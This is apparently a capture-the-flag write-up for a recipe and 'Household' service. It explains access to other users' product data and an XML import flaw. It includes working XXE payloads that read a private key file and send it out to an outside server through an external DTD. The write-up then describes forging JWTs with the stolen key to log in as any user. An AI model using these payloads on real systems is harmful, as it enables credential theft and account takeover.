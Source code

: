## 1. Flag in product manufacturer

It is possible to add products of other users to a dish. You still not be able to get product itself directly, but desired product field `manufacturer` is provided with products in ingredients list of a dish.

## 2. Flag in dish recipe

Second vulnerability is in XML import feature. Badly configured XmlReader allows to define external entities in XML as content of local text file or, for example, as response on GET request to external HTTP server, thus you can do XXE injection.

Luckily, RSA private key for signing access tokens is in *.pem* format so it can be a part of correct XML file. And if you steal private key, you can get authorized for any user as long as you know user id.

At first sight you can just define product name as content of *private.pem* file and get it with product:

```xml
<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE products [
<!ENTITY xxe SYSTEM "file:///app/private.pem">
]>
<products>
    <product>
        <name>&xxe;</name>
        <calories>89</calories>
    </product>
</products>
```

But this XML would not be import because database allows only 100 symbols length for text fields of product. However it is possible to make file content a part of GET request. 

When you want to make entity a part of other entity, one XML document is not enough.

Suppose you start a server listening on address `http://192.168.0.101:20001`. Then you should import such XML:

```xml
<!DOCTYPE products [
<!ENTITY % xxe SYSTEM "http://192.168.0.101:20001">
%xxe;
%int;
]>

<products>
    <product>
        <name>&send;</name>
        <calories>89</calories>
    </product>
</products>
```

When XML-processor tries to determine value of `%xxe` entity, it send request to your server, which should reply with such content:

```xml
<!ENTITY % payl SYSTEM "file:///app/private.pem">
<!ENTITY % int "<!ENTITY send SYSTEM 'http://192.168.0.101:20001?p=%payl;'>">
```

Call to `%xxe` entity happens in `DOCTYPE` part (**Document Type Definition**) and it is defined with `%`. It means that this entity should contain not simple text to paste but some defenitions of other elements, entities and so on and before pasting XML-processor should prepare its content like correct fragment of Document Type Definition. So it pastes value of `%payl` in internal string entity `%int` and content of *private.pem* becomes query parameter value.

Then in initial XML call to `%int` defines entity `send`. And call to `&send ` in product name makes server to send request with *private.pem* content in query parameter to your server in order to know name of product. The implementation of this part of attack is presented in *xxe_handler.py* and *import_xml.py*



Let's look at structure of authorization token in https://jwt.io/:  

**Bearer eyJhbGciOiJQUzUxMiIsInR5cCI6ImF0K2p3dCJ9.eyJuYmYiOjE1NzQ1MTE4NDgsImV4cCI6MTU3NDUxNTQ0OCwiaXNzIjoiaHR0cDovLzEwLjYwLjIyLjI6NTAwMCIsImF1ZCI6IkhvdXNlaG9sZEFQSSIsImNsaWVudF9pZCI6IkhvdXNlaG9sZCIsInN1YiI6IjczOTZlY2ZmLTQ3MGQtNGU2YS04N2E4LWFlMGJhYmQ3OTUxZCIsImF1dGhfdGltZSI6MTU3NDUxMTg0NCwiaWRwIjoibG9jYWwiLCJzY29wZSI6WyJvcGVuaWQiLCJwcm9maWxlIiwiSG91c2Vob2xkQVBJIl0sImFtciI6WyJwd2QiXX0.ZXSgs7EZzm5sjxXb068bwIJLfnVJjZ5wpAmNueXgLY6qDLPEQZzaW6xDpOfT87QtqYpWJh9p3vWcINisCItFFMplTFi5pbxMfzOVrBlcTp7cD1V-oJ8JsD1-rddqNoGNYPG4kdV1sNcGknUZJHBtFuFn5cHLE61Jj2YD2SUnEl72Fw_cSYAuIvvo_PlbdbHwzbTWT2-yVj2eRlSm6wQeKiiXYnOa6JRqzVTpv-DzKQVJnBqTKHAmC8PNHNrk6nu6QAxUTQyeu4TiMBdSoA--wPXeq5DFHxsmdhAaKFE33JrWAFrkTlZAYzJJmTVUB8ypXZE7cPvmZbB7zv8qrCDOlQ**

In token there is authorization info and if you put in json any expire date (`"exp"`) and any user id (`"sub"`) and sign json by stolen private key, server will believe us and authorize.

```json
{
  "nbf": 1574511848,
  "exp": 1574515448,
  "iss": "http://10.60.22.2:5000",
  "aud": "HouseholdAPI",
  "client_id": "Household",
  "sub": "7396ecff-470d-4e6a-87a8-ae0babd7951d",
  "auth_time": 1574511844,
  "idp": "local",
  "scope": [
    "openid",
    "profile",
    "HouseholdAPI"
  ],
  "amr": [
    "pwd"
  ]
}
```

So you need to know user ids. You can iterate on dishes and get public data of dish without `recipe` field but with `createdBy`. With fake access tokens for users with dishes you can get all dish data including secret `recipe`. Also you get flags from product `manufacturer`.
